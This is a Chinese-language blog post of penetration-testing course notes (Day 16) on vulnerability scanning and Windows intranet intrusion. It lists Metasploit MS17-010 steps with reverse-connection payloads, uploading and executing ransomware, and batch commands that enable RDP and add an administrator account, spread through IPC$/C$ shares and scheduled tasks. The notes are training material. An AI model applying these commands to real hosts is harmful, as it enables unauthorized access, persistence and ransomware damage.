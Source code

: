 ```yaml
---
arturl_encode: "68747470733a:2f2f626c6f672e6373646e2e6e65742f5969736974656c7a2f:61727469636c652f64657461696c732f313338323238393532"
layout: post
title: "网络安全实训Day16"
date: 2024-04-26 20:05:58 +08:00
description: "网络空间安全第16天学习笔记。漏洞扫描；内网渗透"
keywords: "网络安全实训Day16"
categories: ['未分类']
tags: ['网络安全', '笔记', '漏洞扫描', 'Web']
artid: "138228952"
image:
  path: https://api.vvhan.com/api/bing?rand=sj&artid=138228952
  alt: "网络安全实训Day16"
render_with_liquid: false
featuredImage: https://bing.ee123.net/img/rand?artid=138228952
featuredImagePreview: https://bing.ee123.net/img/rand?artid=138228952
---
```


# 网络安全实训Day16

### 网络空间安全实训-渗透测试

* ## 漏洞扫描

  + 定义

    - 扫描和探测目标范围内的主机存在哪些安全漏洞，或扫描目标范围内的那些主机存在某个指定的漏洞
  + 漏扫工具

    - AWVS
    - APPScan
    - MSF
  + ### 使用MSF扫描漏洞并利用

    - 1.搜索需要的攻击模块

      * search ms17-010
    - 2.使用攻击模块

      * use 模块名称
    - 3.设置扫描范围

      * set rhosts 192.168.12.0/24
    - 4.设置扫描线程

      * set thread 50
    - 5.开始扫描

      * run
    - 6.更换攻击模块为漏洞利用
    - 7.查看可用攻击载荷

      * show payloads
    - 8.设置攻击载荷

      * set payload 攻击载荷名称
    - 9.设置被攻击主机IP地址

      * set rhost IP地址
    - 10.设置反向连接的控制机IP地址

      * set lhost IP地址
    - 11.开始攻击

      * run
    - 12.上传病毒

      * upload 本地文件路径 远程主机路径
    - 13.执行勒索病毒

      * execute -f 勒索病毒路径
* ## Windows内网渗透

  + #### 1.扫描对方操作系统和开放的端口

    - 确定对方是Windows系统开启了445接口
  + #### 2.针对该端口服务暴力破解Windows管理员账号密码
  + #### 3.与对方建立空连接

    - net use \\对方ip地址\ipc$
    - 需要输入对方的管理员账号密码
  + #### 4.制作开启RDP和创建管理员账户的脚本bat

    - REG ADD "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
    - net user 用户名 密码 /add
    - net local group administrator 用户名 /add
  + #### 5.访问对方C盘默认共享，将bat复制到对方C盘

    - 在文件资源管理器地址栏中输入 \\对方IP地址\c$
  + #### 6.查看对方的系统时间

    - net time \\对方IP地址
  + #### 7.给对方创建任务计划，定时执行BAT程序，开启RDP

    - at \\对方ip地址 时间 执行的文件路径
  + #### 8.使用先前创建的管理员账号登陆RDP

![](https://i-blog.csdnimg.cn/blog_migrate/3a1899394da5783be7979b3c5afc44a9.png)
